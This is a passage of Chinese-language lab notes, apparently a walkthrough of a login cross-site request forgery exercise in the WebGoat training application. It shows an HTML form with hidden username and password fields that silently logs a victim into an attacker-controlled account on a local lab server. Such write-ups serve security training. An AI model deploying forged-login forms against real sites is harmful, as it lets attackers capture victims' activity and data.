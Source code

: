 ![](../../images/Pasted%20image%2020241217164850.png)

这样就成功了

#### 2.4.3 实际步骤

构造一个webgoat登录攻击者crsf账户的表单
```html
<form action="http://192.168.137.42:8080/WebGoat/login" method="POST">  
    <input type="hidden" name="username" value="csrf-testtest"> <!-- 根据需要添加参数 -->  
	<input type="hidden" name="password" value="testtest"> <!-- 根据需要添加参数 -->  
    <button type="submit">login</button>  
</form> 
```

打开一个原账户登录的页面
![](../../images/Pasted%20image%2020241217165404.png)
